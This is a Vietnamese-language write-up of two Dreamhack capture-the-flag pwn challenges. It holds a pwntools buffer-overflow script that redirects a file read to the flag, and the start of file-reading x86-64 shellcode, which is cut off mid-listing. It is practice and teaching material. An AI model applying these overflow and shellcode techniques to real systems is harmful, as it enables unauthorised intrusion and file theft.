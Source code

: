 ```yaml
--- 
title: Dreamhack writeup
date: 2025-03-06 00:00:00 +0800
categories: [writeup]
tags: [pwn]
author: "kuvee"
layout: post
published: false
---
```


1 . bof
------------
 
 reverse : 
 
 có 1 lỗi BOF như tên bài ở biến v4
 
 ![image](https://hackmd.io/_uploads/B1wRFr_m1x.png)

ở hàm read_cat này thì nó open file biến cat chứa ‘./cat’   từ v5 làm đối số , mở file và đọc 

—> overflow v5 bằng flag , từ đó nó sẽ đọc flag cho ta

script :

```
#!/usr/bin/python3
from pwn import *

context.binary = exe = ELF('./bof',checksec=False)
p =process(exe.path)
p = remote('host3.dreamhack.games', 12255)
payload = b'a'*128
payload += b'flag'
p.sendline(payload)
p.interactive()
```

-----------

2 . shell-basic
------------

check IDA : ta thấy nó kêu ta nhập shellcode vì vậy rất có thể là ret2shell , tuy nhiên nó ngăn ta thực thi execve , vậy chỉ còn cách mở file và đọc flag



![image](https://hackmd.io/_uploads/SyrBcBd7ye.png)


![image](https://hackmd.io/_uploads/SJXIqrOXyl.png)

```
; filename : shellcode.asm
section .text
global _start
_start:

        ; open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL)
        xor rax, rax
        push rax                               ; *rsp = \x0
        mov rax, 0x676e6f6f6f6f6f6f             ; rax = "oooooong"
        push rax                                ; *rsp = "oooooong\x0"
        mov rax, 0x6c5f73695f656d61             ; rax = "ame_is_l"
        push rax                                ; *rsp = "ame_is_loooooong\x0"
        mov rax, 0x6e5f67616c662f63             ; rax = "c/flag_n"
```